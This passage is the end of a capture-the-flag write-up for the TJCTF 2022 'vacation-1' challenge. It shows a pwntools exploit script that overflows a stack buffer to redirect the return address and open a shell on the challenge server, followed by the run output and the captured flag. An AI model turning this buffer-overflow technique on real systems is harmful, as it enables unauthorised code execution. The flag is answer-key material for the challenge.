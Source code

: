 With pwntools, we can attach to a target (whether a local program or a remote socket), create the payload, send it, and then pass the control back to the user for an interactive session.

```python
#!/usr/bin/env python3
from pwn import *
import struct

context(arch="x86_64", os="linux")
#sh = process("./chall") # for local binary
sh = remote('tjc.tf', 31680) # for remote socket

# Read "Input: " prompt
sh.recv(100)

# Craft payload
payload = b'x' * 16 # fill buffer
payload += b'a' * 8 # overwrite saved rbp
payload += struct.pack("Q", 0x0040119e) # our target return address

# Send payload
print(f"Sending payload: {payload}")
sh.sendline(payload)
sh.interactive()
```

```bash
$ ./exploit.py 
[+] Opening connection to tjc.tf on port 31680: Done
Sending payload: b'xxxxxxxxxxxxxxxxaaaaaaaa\x9e\x11@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}
$ 
[*] Closed connection to tjc.tf port 31680
```

## Flag
The flag is: `tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}`

[img-prompt]: /assets/img/tjctf2022/vacation-1/0-prompt.png
[chall]: /assets/data/tjctf2022/vacation-1/chall
[chall-src]: /assets/data/tjctf2022/vacation-1/chall.c
[file-dockerfile]: /assets/data/tjctf2022/vacation-1/Dockerfile
[binary-warning]: /tjctf2022/rev/take-a-l.html#file-type-identification
[gef]: https://github.com/hugsy/gef
[gdb-examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[struct-pack-docs]: https://docs.python.org/3/library/struct.html#format-strings
[man-cat]: https://man7.org/linux/man-pages/man1/cat.1.html
[pwntools]: https://docs.pwntools.com/en/stable/
